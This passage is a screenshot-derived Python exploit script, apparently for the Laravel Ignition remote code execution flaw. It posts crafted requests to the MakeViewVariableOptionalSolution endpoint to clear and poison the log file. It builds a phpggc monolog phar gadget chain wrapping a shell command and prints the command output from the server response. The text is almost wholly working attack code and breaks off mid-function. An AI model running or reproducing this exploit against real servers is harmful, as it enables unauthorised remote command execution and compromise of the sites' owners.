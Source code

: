 ```python
}

data = {
        "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",\
        "parameters":{
            "variableName":"cm0s",
            "viewFile":""
        }
    }

def clear_log(url='', viewFile=''):

    global data

    data['parameters']['viewFile'] = viewFile
    while (requests.post(url=url, json=data, headers=header, verify=False).status_code != 200): pass
    requests.post(url=url, json=data, headers=header, verify=False)
    requests.post(url=url, json=data, headers=header, verify=False)

def create_payload(url='', viewFile=''):

    global data

    data['parameters']['viewFile'] = viewFile
    resp = requests.post(url=url, json=data, headers=header, verify=False)
    if resp.status_code == 500 and f'file_get_contents({viewFile})' in resp.text:
        return True
    return False

def convert(url='', viewFile=''):

    global data

    data['parameters']['viewFile'] = viewFile
    resp = requests.post(url=url, json=data, headers=header, verify=False)
    if resp.status_code == 200:
        return True
    return False

def exploited(url='', viewFile=''):

    global data

    data['parameters']['viewFile'] = viewFile
    resp = requests.post(url=url, json=data, headers=header, verify=False)
    if resp.status_code == 500 and 'cannot be empty' in resp.text:
        m = re.findall(r'\{(.|\n)+\}((.|\n)*)', resp.text)
        print()
        print(m[0][1])

def generate_payload(command='', padding=0):
    if '/' in command:
        command = command.replace('/', '\/')
        command = command.replace('\'', '\\\'')
    os.system(r'''php -d'phar.readonly=0' ./phpggc/phpggc monolog/rce1 system '%s' --phar phar -o php://output | base64 -w0 | sed -E 's/./\0=00/g' > payload.txt'''%(command))
    payload = ''
    with open('payload.txt', 'r') as fp:
        payload = fp.read()
        payload = payload.replace('==', '=3D=')
        for i in range(padding):
            payload += '=00'
```